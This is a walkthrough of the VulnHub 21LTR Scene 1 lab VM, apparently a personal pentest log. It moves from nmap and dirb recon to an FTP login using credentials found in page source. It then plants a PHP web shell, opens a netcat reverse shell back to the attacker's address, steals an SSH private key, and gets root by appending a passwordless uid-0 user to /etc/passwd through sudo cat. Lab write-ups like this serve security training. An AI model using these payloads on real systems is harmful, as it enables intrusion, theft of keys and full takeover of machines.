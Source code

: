 # 21LTR-Scene-1 in 2020
This is a hlog (hacking log) Walkthrough, vm is from https://www.vulnhub.com/entry/21ltr-scene-1,3/

Scene 1
Your pentesting company has been hired to perform a test on a client company's internal network. Your team has scanned the network and you have been assigned one of the discovered systems. Perform a test on this system starting from the beginning of your chosen methodology and submit your report to the project manager at scenes AT 21LTR DOT com

Scope Statement
The client has defined a set of limitations for the pentest: - All tests will be restricted to the systems identified on the 192.168.2.0/24 network. - All commands run against the network and systems must be supplied in the form of script files packaged with the submission of the report - A final report indicating all identified vulnerabilities and exploits will be provided to the company's engineering department within 90 days of the start of this engagement.

Configuration
Scenario Pentest Lab Scene 1:

This LiveCD is configured with an IP address of 192.168.2.120 - no additional configuration is necessary.


**1.Import iso into esxi server.**

Once downloaded, upload your file to Datastore, so you can apply the iso when you create the vm. 

**2.Change Kali's ip address, so it both machines are ping each other.** 

**3.Let the hunt begins! Let do a nmap first.**

`nmap -sV 192.168.2.120 `  OR just simplely  `nmap 192.168.2.120`

**4.Looking at what services they are offering.** 
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 22:42 CST  
Nmap scan report for 192.168.2.120  
Host is up (0.00058s latency).  
Not shown: 997 closed ports  
PORT      STATE SERVICE     VERSION  
21/tcp    open  ftp         ProFTPD 1.3.1  
22/tcp    open  ssh         OpenSSH 5.1 (protocol 1.99)  
80/tcp    open  http        Apache httpd 2.2.13 ((Unix) DAV/2 PHP/5.2.10)   
Service Info: OS: Unix  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 19.49 seconds  
```
**5. Http services looks like a great start.** 

``` firefox 192.168.2.120 ```  
Then press F12 to see the source code, you will see a log info..  
```  <!-- username:logs password:zg]E-b0]+8:(58G -->  ``` 

**6. Let's have a deeper understanding of this website.** 

``` dirb http://192.168.2.120 ``` 
Then you will see a entering directory: http://192.168.2.120/logs/ 

**7. Great start! Let's go to this link, no so good.** 

``` 
Forbidden 
You don't have permissions to access /logs/ on this server.
```
 Well, we don't have much luck there. 
 
**8. Don't forget about we also have an ftp service running, why don't we try that?** 

``` ftp 192.168.2.120 ``` 

then enter logs as the username, zg... as the password. 

**9. Code 230, you are login! **

Like we always do, using ``` ls``` to look for any files.

Then we find out something interesting. Using ``` get backup_log.php ``` download the file into our local directory. 

**10. Check out what is inside?** 

``` cat backup_log.php ``` to see what's inside. 

```
<html>                                                                                                                        
        <head>  
                <title></title>  
        </head>                  
        <body>   
                <h2 style="text-align: center">  
                        Intranet Dev Server Backup Log</h2>  
                        <?php $log = time(); echo '<center><b>GMT time is: '.gmdate('r', $log).'</b></center>'; ?>            
                <p>                                                                                                           
                        &nbsp;</p>               
                <h4>                             
                        Backup Errors:</h4>  
                <p>                          
                        &nbsp;</p>           
        </body>                              
</html>  
  
Wed, 03 Jan 2012 09:51:42 +0000 from 192.168.2.240: Permission denied  
<br><br>  
Thu, 04 Jan 2012 13:11:29 +0000 from 192.168.2.240: No Such file or directory  
<br><br>  
Thu, 04 Jan 2012 13:31:36 +0000 from 192.168.2.240: No space left on device  
<br><br>  
Thu, 04 Jan 2012 13:41:36 +0000 from 192.168.2.240: No Space left on device  
<br><br>  
Mon, 16 Feb 2012 17:01:02 +0000 from 192.168.2.240: No Space left on device  
<br><br>  
Fri, 23 Apr 2012 10:51:07 +0000 from 192.168.2.240: No Space left on device  
<br><br>  
Fri, 12 May 2012 16:41:32 +0000 from 192.168.2.240: No Space Left on device  
<br><br>  
GET / HTTP/1.0  

```

**11.Ip 192.168.2.240 looks interesting, and it looks like we are server trying to send us something every 10 mins.** 

```
Thu, 04 Jan 2012 13:31:36 +0000 from 192.168.2.240: No space left on device  
<br><br>  
Thu, 04 Jan 2012 13:41:36 +0000 from 192.168.2.240: No Space left on device  
<br><br> 
```
Let's change our ip and see what is up. At this point, we need to change our Kail ip to 192.168.2.240

**12. Fired up wireshark, and see what files that server trying to send me.** 

Apply filters in wireshark 

``` ip.src == 192.168.2.120 ``` 

then you will find out something is happening at port 10001 

so an additional filter was added 
``` tcp.port == 10001 ```


**13. With the port number confirmed, it is time for nc.** 

When I try nc on port 10001 at first, I was getting connection refused. Then I search online a bit and someone recommanded to use a while loop, so here we go. 

```
while true; do nc -v 192.168.2.120 10001 && break; sleep 1; clear; done 
```
if it shows connection refused, wait for a little. 

Once you see the connection has been established, then enter 

``` <?php system($_GET['cmd']) ?> ``` 

This command is using PHP one-liner, and it allows us to run commands from here. 

**14. Let's try run some commands here.** 

```
http://192.168.2.120/logs/backup_login.php?cmd=whoami 
```

At the really bottom of the web page , we see ``` apache ``` on the bottom, which is great! We can run commands now. 


**15.Let's start an netcat as listener on our Kali terminal.**

```
nc -lvp 443 
```


**16.Now we will try a bash one-liner to get a reverse shell.**

```
http://192.168.2.120/logs/backup_login.php?cmd=nc -e /bin/sh 192.168.2.12 443
```
The web broswer will not be responding, but that is ok, we are still getting the things we needed. 

**17.Gain the /bin/sh access from this 443 nc session.** 

So far we have  an incomplete and improper shell, in order to invoke a proper shell, we will be using a python one-liner

```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Hit enter when you done entering. 

**18.sh-3.1$ ---Yeah, we are almost done. **

At this point, you can run bash commands on this nc session. By going through their folders, there is something interesting. 

```
cd /media/USB_1/Stuff/Keys/
cat authorized_keys     you will see an user name here hbeale@slax
cat id_rsa  ---- this is the private key... 
```

**19.Using key to login, good....**  

Copy the key to local, then save key file and change permissions.  ``` chmod 600 id_rsa(yourfilename) ``` 

**20.Login to the server, using keys.Since we changed the permissions of our private key, we now can use the key to login.** 

```ssh -i id_rsa hbeale@192.168.2.120 ``` 

**21.Viewing permissions.**

Let's try on a low permission command.``` sudo -l ```  We also discover something intersting. ```  (root) NOPASSWD: /usr/bin/cat ``` 

**22.Gain root permissions.**

Entering  ``` sudo /usr/bin/cat >> /etc/passwd  ```  and  ``` orange::0:0::/root:/bin/bash  ```

When you done, use Control+C  to end, then use ``` su orange ```   To gain the root permissions. 

(orange can be replaced to any username)

**23. Checking the root permissions.** 

As soon as you finished entering that command , you will see  ``` root@slax:/home/hbeale# ```

When you check ``` id ```  You will see   ``` uid=0(root) gid=0(root) groups=0(root) ```
 
**24. Great job! All done!** 
